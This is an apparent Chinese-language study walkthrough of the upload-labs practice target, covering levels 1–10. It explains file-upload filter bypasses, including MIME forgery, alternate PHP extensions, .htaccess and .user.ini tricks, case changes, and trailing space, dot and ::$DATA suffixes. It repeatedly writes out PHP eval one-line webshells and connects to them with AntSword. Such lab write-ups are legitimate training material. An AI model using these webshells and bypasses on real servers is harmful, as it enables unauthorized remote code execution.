





# upload-labs靶场通关

+ 源码位置：https://github.com/c0ny1/upload-labs

+ 参考通关秘籍：
  + [Upload-labs靶场通关攻略(全网最全最完整)](https://blog.csdn.net/weixin_47598409/article/details/115050869)
  + [Upload-labs靶场通关笔记(含代码审计)](https://blog.csdn.net/weixin_54894046/article/details/127239720?ops_request_misc=%7B%22request%5Fid%22%3A%22170438292316800215095603%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170438292316800215095603&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-3-127239720-null-null.142^v99^control&utm_term=upload-labs通关&spm=1018.2226.3001.4187)
  + [upload-labs详解1-19关通关全解(最全最详细)](https://blog.csdn.net/qq_53003652/article/details/129969951?ops_request_misc=%7B%22request%5Fid%22%3A%22170636374116800222847150%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170636374116800222847150&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-129969951-null-null.142^v99^pc_search_result_base4&utm_term=upload-labs通关&spm=1018.2226.3001.4187)
  + [文件上传漏洞之upload-labs打靶笔记-CSDN博客](https://blog.csdn.net/m0_60716947/article/details/124608448?ops_request_misc=%7B%22request%5Fid%22%3A%22170758532616800180610738%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=170758532616800180610738&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-23-124608448-null-null.142^v99^pc_search_result_base4&utm_term=upload-labs报错)
  + [生命在于折腾——upload-labs-CSDN博客](https://blog.csdn.net/qq_15131581/article/details/126527056?spm=1001.2101.3001.6650.4&utm_medium=distribute.pc_relevant.none-task-blog-2~default~CTRLIST~Rate-4-126527056-blog-129969951.235^v43^pc_blog_bottom_relevance_base6&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~CTRLIST~Rate-4-126527056-blog-129969951.235^v43^pc_blog_bottom_relevance_base6&utm_relevant_index=9)
  
+ 本地打开地址：<code>http://localhost/upload-labs</code>

+ 在线靶场地址:<code>[upload-labs (shifa23.com)](http://uploads.shifa23.com/)</code>

+ 一句话木马：[Web安全-一句话木马_yijuhuamuma-CSDN博客](https://blog.csdn.net/weixin_39190897/article/details/86772765?ops_request_misc=%7B%22request%5Fid%22%3A%22170759274516800188526622%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=170759274516800188526622&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-86772765-null-null.142^v99^pc_search_result_base4&utm_term=jpg如何夹一句话木马&spm=1018.2226.3001.4187)

## Pass 01

+ 首先查看提示：本pass在客户端使用js对不合法图片进行检查！

+ 代码审计，查看下源代码，发现确实在前端验证：

+ 编写脚本：

### 方法一：浏览器禁用JS

+ 点击图中的地方设置浏览器

  

+ 浏览器禁用JS后上传php文件

+ 成功上传后在右键在另一标签打开上传的图片

+ 发现webshell成功执行

## Pass 02

+ 首先查看提示:

~~~ tex
本pass在服务端对数据包的MIME进行检查！
~~~

+ 上传<code>pass-02</code>的脚本文件

+ 在burpsuite软件拦截包后修改上传的PHP文件的content-type为image/png

+ 可以看到文件成功上传

+ 右键在另外的标签页打开刚上传的文件

注入成功

## Pass 03

+ 首先查看提示

~~~ shell
本pass禁止上传.asp|.aspx|.php|.jsp后缀文件！
~~~

+ 查看源代码

~~~ php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

~~~

查看源码，黑名单可用<code>php2</code>、<code>php3</code>、<code>php5</code>、<code>php7</code>、<code>phtml</code>等绕过

+ 修改<code>phpstudy</code>的配置文件<code>httpd.conf</code>

+ 加上下面这条命令：

~~~ shell
AddType application/x-httpd-php .php .phtml .php5 .php3
~~~

> 修改完配置文件后记得重启以下<code>phpstudy</code>服务环境
>
> ~~~ tex
> 关于AddType命令的作用解释
> 
> AddType 指令 作用：在给定的文件扩展名与特定的内容类型之间建立映射 语法：AddType MIME-type extension
> [extension] …
> AddType指令在给定的文件扩展名与特定的内容类型之间建立映射关系。MIME-type指明了包含extension扩展名的文件的媒体类型。
> AddType 是与类型表相关的，描述的是扩展名与文件类型之间的关系。
> ~~~

+ 重新启动<code>phpstudy</code>服务环境

+ 将一句话木马文件<code>.php</code>后缀改为<code>.php5</code>即可上传

+ 如图，上传成功

+ 这里有个问题，<code>php</code>版本不能为<code>nts</code>，不然就会出现<code>.php5</code>文件无法解析的情况

## Pass04

+ 查看下提示信息

~~~ shell
本pass禁止上传.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf后缀文件！
~~~

+ 这题使用的是<code>php5</code>环境，重新上传<code>pass3</code>需上传的<code>php5</code>或其他类型文件均失败

+ 发现有一个文件没有过滤，是上传过程中经常用到的<code>.htaccess</code>文件

~~~ tex
.htaccess基础知识*重点内容*
.htaccess文件(或者”分布式配置文件”）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。

启用.htaccess，需要修改httpd.conf，启用AllowOverride，并可以用AllowOverride限制特定命令的使用。如果需要使用.htaccess以外的其他文件名，可以用AccessFileName指令来改变。例如，需要使用.config ，则可以在服务器配置文件中按以下方法配置：AccessFileName .config 。

它里面有这样一段代码：AllowOverride None，如果我们把None改成All
~~~

~~~ tex
概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

Unix、Linux系统或者是任何版本的Apache Web服务器都是支持.htaccess的，但是有的主机服务商可能不允许你自定义自己的.htaccess文件。

启用.htaccess，需要修改httpd.conf，启用AllowOverride，并可以用AllowOverride限制特定命令的使用。如果需要使用.htaccess以外的其他文件名，可以用AccessFileName指令来改变。例如，需要使用.config ，则可以在服务器配置文件中按以下方法配置：AccessFileName .config 。

笼统地说，.htaccess可以帮我们实现包括：文件夹密码保护、用户自动重定向、自定义错误页面、改变你的文件扩展名、封禁特定IP地址的用户、只允许特定IP地址的用户、禁止目录列表，以及使用其他文件作为index文件等一些功能。
~~~

+ 漏洞原理

~~~ tex
利用上传到服务器上的.htaccess文件修改当前目录下的解析规则
~~~

+ 查看源码

+ 形成条件

~~~ tex
1.php5.6以下不带nts的版本
2.服务器没有禁止.htaccess文件的上传，且服务商允许用户使用自定义.htaccess文件
~~~

1. <code>.htaccess</code>参数

常见配法有以下几种：

~~~ tex
AddHandler php5-script .jpg
AddType application/x-httpd-php .jpg
SetHandler application/x-httpd-php

Sethandler 将该目录及子目录的所有文件均映射为php文件类型。
Addhandler 使用 php5-script 处理器来解析所匹配到的文件。
AddType 将特定扩展名文件映射为php文件类型。
~~~

<code>.htaccess</code>文件内容如下：

~~~ shell
SetHandler application/x-httpd-php .png
~~~

### 方法一

先上传<code>.htaccess</code>方法再上传后缀<code>png</code>文件，将该目录及子目录的所有文件均映射为 <code>php</code>文件

>使用的php版本为php5.4.45 运行模式为 **Apache 2.0 Handler**
>
> 在php的nts版本下面无法解析png图片为php文件 该运行模式为CGI/FastCGI

+ <code>nts</code>和非<code>nts</code>版本区别对比

> 在PHP 开发和生产环境搭建过程中，需要安装PHP语言解析器。官方提供了2种类型的版本，线程安全（TS）版和非线程安全（NTS）版，有时后我们开发环境和实际生产的环境有所不同，因此也需要选择安装对应的PHP版本。
>
>  
>
> **1、简介**
>
> **TS:**
>
> 　　TS(*Thread-Safety*)即线程安全，多线程访问时，采用了加锁机制，当一个线程访问该类的某个数据时进行数据加锁保护，其他线程不能同时进行访问该数据，直到该线程读取完毕，其他线程才可访问使用该数据，好处是不会出现数据不一致或者数据污染的情况，但耗费的时间要比 NTS 长。
>
> 　　PHP以 ISAPI 方式（Apache 常用方式）加载的时候选择TS版本。
>
>  
>
> **NTS:**
>
> 　　NTS(*None-Thread Safe*)即非线程安全，不提供数据访问保护，有可能出现多个线程先后或同时操作同一数据的情况，容易造成数据错乱（即脏数据），一般操作的执行时间要比 TS 短。
>
> 　　PHP以FAST-CGI方式加载运行的时候选择TNS版，具有更好的性能；
>
> 　　
>
> **ISAPI：**
>
> 　　ISAPI(*Internet Server Application Programming Interface*), 通常是指被http服务器所加载，以服务器的模块形式运行，由微 软提出，故只能在win平台上运行，如win下的apache,iis[用fast cgi 方式工作更稳定]，而linux上php 则以 Apache模块（常用方式）或者php-fpm（该方式更适合于NGINX+PHP 运行）的方式运行。
>
>  
>
> **CGI：**
>
> 　　cgi(*Common Gateway Interface*):HTTP服务器与客户端机器上的程序进行“交谈”的一种工具,简而言之，cig就是一种 后台语言，可以与服务器进行通讯。此时的php是作为一个独立的程序运行的，特点就是耗费内存。
>
>  
>
> **FAST CGI：**
>
> 　　fast cgi是一个常驻(long-live)型的CGI，它可以一直执行着，只要激活后，不会每次都要花费时间去fork一个新进程。这种方式 是与语言无关的、可伸缩架构的CGI开放扩展，其主要行为是将CGI解释器进程保持在内存中并因此获得较 高的性能。
>
>  
>
> FAST-CGI 是微软为了解决 CGI 解释器的不足而提出改进方案。当一个请求向 web server 发送请求时，web server总会fork一个CGI解释器进程进行处理这个请求，进程处理完成之后将结果返回给web server，web server将结果返回并显示出来，进程结束，当用户再次请求同一个页面时，web server又会fork一个新进程进行请求处理，这样效率会比较低下（CGI被人诟病的主要原因）。而采用FAST-CGI 解释器的 话，当一个请求执行完毕后不会注销该进程，而是将改进程进入休眠期，当接收到新的请求时，重新启用改进程进行处理。FAST-CGI 较CGI 减少了进程的重复创建的资源占用。
>
> 　　进程与线程：一个进程至少存在一个或多个线程。
>
>  
>
> **2、选择**
>
> 　　通常win下 PHP + Apache 组合，以 ISAPI 的方式运行。
>
> 　　而linux下通常分为2种：
>
> 　　 Apache + PHP，PHP一般作为Apache 的模块进行运行；
>
> 　　 Nginx + PHP ，以 phpfast cgi的方式，即php-fpm的方式运行，该方式对高并发、高负载有良好的性能体现，因此很多网站采用该方式进行环境的搭建。
>
> 　　Nginx 较Apache 的配置要少很多，因此人为出错的概率要少一点，但也因此 Apache 的 稳定性要比Nginx 高。
>
>  
>
> 前面废话了那么多，下面才是重点 ...
>
> **总结：**
>
> - **以 ISAPI 方式运行就用 TS 线程安全版**
> - **以 FAST-CGI 或 PHP-FPM 方式运行就用NTS 非线程安全版**
> - **通常 Windows 下 Apache + PHP 选TS ，IIS（fast-cgi） + PHP 选TNS**
> - **通常Linux 下 Apache + PHP 选TS，Nginx + PHP 选TNS**

+ <code>nts</code>版本会报<code>500</code>内部错误

+ 非<code>nts</code>版本没有这样的条件导致这关攻关失败

## Pass05

+ 使用的版本

​	这里我使用的版本是<code>php5.4.45 nts</code>以及<code>Apache2.4.39</code>

+ 点开提示

+ 查看源码

​        源码里把所有可以解析的后缀名都给写死了，包括大小写，转换，空格，还有点号，正常的php类文件上传不了了，并且拒绝上传 <code>.htaccess</code> 文件；反复观察发现没有被限制的后缀名有<code> .php7</code> 以及<code> .ini</code>

+ 百度一番<code>ini</code>的知识

~~~ tex
user.ini ： 自 PHP 5.3.0 起，PHP 支持基于每个目录的 .htaccess 风格的 INI 文件。此类文件仅被
CGI／FastCGI SAPI 处理。此功能使得 PECL 的 htscanner 扩展作废。如果使用 Apache，则用
.htaccess 文件有同样效果。
   
除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web
根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。
   
在 .user.ini 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI
设置可被识别。
   
两个新的 INI 指令，user_ini.filename 和 user_ini.cache_ttl 控制着用户 INI 文件的使用。
   
user_ini.filename 设定了 PHP 会在每个目录下搜寻的文件名；如果设定为空字符串则 PHP 不会搜寻。默认值是
.user.ini。
   
user_ini.cache_ttl 控制着重新读取用户 INI 文件的间隔时间。默认是 300 秒（5 分钟）。
~~~

<code>php.ini</code> 是<code>php</code>的配置文件，<code>.user.ini</code> 中的字段也会被 <code>php</code> 视为配置文件来处理，从而导致<code>php</code>的文件解析漏洞。

+ 引发<code>.user.ini</code>解析漏洞需要三个前提条件

~~~ tex
服务器脚本语言为PHP  

服务器使用CGI／FastCGI模式  

上传目录下要有可执行的php文件
~~~

+ 百度下<code>CGI</code>

~~~ tex
  什么是 CGI
       CGI 的全称为“通用网关接口”（Common Gateway Interface），为 HTTP 服务器与其他机器上的程序服务通信交流的一种工具， CGI 程序须运行在网络服务器上。
   
       传统 CGI 接口方式的主要缺点是性能较差，因为每次 HTTP 服务器遇到动态程序时都需要重新启动解析器来执行解析，之后结果才会被返回给 HTTP
       服务器。这在处理高并发访问时几乎是不可用的，因此就诞生了 FastCGI。另外，传统的 CGI 接口方式安全性也很差，故而现在已经很少被使用了。
   
       什么是 FastCGI
       FastCGI 是一个可伸缩地、高速地在 HTTP 服务器和动态服务脚本语言间通信的接口（在 Linux 下， FastCGI 接口即为 socket，这个socket 可以是文件 socket，也可以是IP socket），主要优点是把动态语言和 HTTP
   服务器分离开来。多数流行的 HTTP 服务器都支持 FastCGI，包括 Apache 、 Nginx 和 Lighttpd 等。
   
       同时，FastCGI也被许多脚本语言所支持，例如当前比较流行的脚本语言PHP。FastCGI 接口采用的是C/S架构，它可以将 HTTP 服务器和脚本服务器分开，同时还能在脚本解析服务器上启动一个或多个脚本来解析守护进程。当 HTTP
   服务器遇到动态程序时，可以将其直接交付给 FastCGI 进程来执行，然后将得到结果返回给浏览器。这种方式可以让 HTTP
   服务器专一地处理静态请求，或者将动态脚本服务器的结果返回给客户端，这在很大程度上提高整个应用系统的性能。

~~~

+ 对比下，<code>php</code>语言与<code>CGI</code>对于我们的<code>Apache</code>和环境均满足

+ 创建<code>.user.ini</code>文件并上传

<code>.user.ini</code>文件里的意思是：所有的<code>php</code>文件都自动包含<code>666.jpg</code>文件。<code>.user.ini</code>相当于一个用户自定义的<code>php.ini</code>

+ 上传<code>666.jpg</code>文件，文件内容为：

+ 使用蚁剑连接

  + 等待5分钟
  + 复制图像地址

  

  

  

  + 右键点击添加数据，用蚁剑访问

+ 配置数据，将<code>URL</code>地址设为图像地址，但文件名改为<code>readme.php</code>，连接密码设置为 666

+ 点击确定，发现已经拿到<code>shell</code>

+ 双击<code>shell</code>，出现对应的数据，成功

~~~ tex
ps: 蚁剑相关的文档查看对应的url:
	https://github.com/AntSwordProject
	https://github.com/AntSwordProject/antSword
	https://github.com/AntSwordProject/AntSword-Loader
	https://github.com/eastmountyxz/AntSword-Experiment
~~~

## Pass06

+ 查看源码，和第四关对比发现这关没有转换大小写的代码，逆推一下 最后要得到<code>xxx.php</code>那么<code>$file_ext</code>就要是php 黑名单里面就禁止了<code>pHp</code>，没有禁止<code>phP</code> 、<code>Php</code>，这样可以上传大小写混合的后缀名绕过

+ 这里版本得选择非<code>nts</code>版本的才能成功，如果是<code>nts</code>版本会报<code>http 500</code>服务器内部错误，不知道什么原因。在这里我上传了<code>6.Php</code>

+ 上传之后由于是<code>nts</code>版本的<code>php</code>版本，所以报了<code>http 500</code>服务器内部错误

+ 换一种方法，用蚁剑连接

  + 先定义脚本<code>SixSecondMethod</code>

  ~~~ shell
  <?php @eval($_POST['SixSecond']); ?>
  ~~~

  

+ + 上传<code>SixSecondMethod</code>文件

+ + 复制对应的<code>SixSecondMethod</code>文件地址

  ~~~ shell
  http://192.168.31.126:8080/upload-labs/upload/202401310207471991.Php
  ~~~

  

+ + 使用蚁剑添加数据并配置相关信息

  

+ + 最后发现配置成功，但由于<code>php</code>版本是<code>nts</code>导致了服务器出现<code>500</code>错误无法成功拿到<code>shell</code>

  

## Pass07

### 方法一

+ 首先查看源码，对比上一关发现少了收尾去空

+ 思路是在文件后面加空格，但由于<code>windows</code>特性，文件名后空格会直接删除，不能直接上传<code>.php</code>后加空格，所以要用<code>burp</code>抓包后再加空格如下图

+ 如下所示，绕过成功

### 方法二

+ 首先编写脚本<code>SevenSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['SevenSecond']); ?>
~~~

+ 上传相应的后台脚本<code>SevenSecondMethod.php</code>

+ 用<code>burpsuite</code>拦截然后修改<code>SevenSecondMethod.php</code>为<code>SevenSecondMethod.php </code>即在文件后面加一个空格，然后发现上传成功

+ 右键打开图片网址找到上传文件<code>SevenSecondMethod.php</code>的网址

+ 在蚁剑添加数据，并配置相应的参数，<code>URL地址</code>填写上传文件的网址，<code>连接密码</code>根据脚本<code>SevenSecondMethod.php</code>里的数据填写

+ 配置成功后发现可连接成功

+ 双击已经添加的数据，发现<code>getshell</code>成功

## Pass08

### 方法一

+ 首次查看提示

+ 查看源代码，发现缺少了<code>deldot</code>函数（用于删除文件名最后一个点，如果有多个连续的.... 会全部删除）。但是依据<code>Windows</code>系统保存文件的特性同样会删除文件后缀名的<code>xxx.php.</code>最后的点<code>.</code> 则最后上传的文件还是<code>xxx.php</code>

+ 编写相应的脚本文件<code>EightFirstMethod.php</code>

~~~ shell
<?php phpinfo(); ?>
~~~

+ 上传相应的脚本文件<code>EightFirstMethod.php</code>

+ 上传后用<code>burpsuite</code>拦截并将<code>EightFirstMethod.php</code>的后缀名添加点号<code>.</code>变为<code>EightFirstMethod.php.</code>

+ 上传后右键打开相应的文件

+ 最后发现脚本成功执行

### 方法二

+ 首先编写相应的脚本文件<code>EightSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['EightSecond']); ?>
~~~

+ 上传相应的脚本文件<code>EightSecondMethod.php</code>

+ 上传后用<code>burpsuite</code>拦截并将<code>EightSecondMethod.php</code>的后缀名添加点号<code>.</code>变为<code>EightSecondMethod.php.</code>

+ 上传后右键打开相应的文件

+ 打开相应的文件后复制对应的文件网址

+ 用蚁剑添加数据并配置相应的参数，<code>URL地址</code>填写上传文件的网址，<code>连接密码</code>根据脚本<code>EightSecondMethod.php</code>里的数据填写

+ 配置后测试发现连接成功

+ 双击已经添加的数据，发现成功<code>getshell</code>

## Pass09

### 方法一

+ 首先看题目提示

+ 看源码，看到这一关黑名单没有对<code>::$DATA </code>进 行 处 理 使用<code>::$DATA</code> 进行处理，可以使用<code>::$DATA</code>绕过黑名单

> 补充知识：<code>php</code>在<code>window</code>的时候如果文件名+<code>"::$DATA"</code>会把<code>::$DATA</code>之后的数据当成文件流处理,不会检测后缀名，且保持<code>"::$DATA"</code>之前的文件名 

+ 编辑脚本<code>NinethFirstMethod.php</code>

~~~ shell
<?php phpinfo(); ?>
~~~

+ 上传之前编辑的脚本<code>NinethFirstMethod.php</code>

+ 用<code>burpsuite</code>拦截并修改上传文件<code>NinethFirstMethod.php</code>的后缀为<code>NinethFirstMethod.php::$DATA</code>

+ 可以看到文件<code>NinethFirstMethod.php</code>上传成功

+ 右键打开文件

+ 可以看到脚本上传成功但没办法成功执行

### 方法二

+ 编辑脚本<code>NinethSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['NineSecond']); ?>
~~~

+ 上传文件<code>NinethSecondMethod.php</code>

+ 用<code>burpsuite</code>拦截并修改上传文件<code>NinethSecondMethod.php</code>的后缀为<code>NinethSecondMethod.php::$DATA</code>

+ 可以看到文件<code>NinethSecondMethod.php</code>上传成功

+ 右键打开文件<code>NinethSecondMethod.php</code>

+ 复制打开文件<code>NinethSecondMethod.php</code>的网址

~~~ shell
http://192.168.0.102:8080/upload-labs/upload/202402050507382067.php::$data
~~~

+ 打开蚁剑，配置相应的数据；<code>URL地址</code>填写上传文件的网址，<code>连接密码</code>根据脚本<code>NineSecondMethod.php</code>里的数据填写

+ 可看到，添加数据成功

+ 双击打开数据，<code>getshell</code>成功

## Pass10

### 方法一

+ 首先查看提示

+ 查看源代码

这一关黑名单，最后上传路径直接使用文件名进行拼接，而且只对文件名进行
<code>filename=deldot(file_name)</code>操作去除文件名末尾的点，构造后缀绕过黑名单

<code>deldot()</code>函数从后向前检测，当检测到末尾的第一个点时会继续它的检测，但是遇到空格会停下来

+ 编写脚本<code>TenFirstMethod.php</code>

~~~ shell
<?php phpinfo(); ?>
~~~

+ 上传脚本<code>TenFirstMethod.php</code>

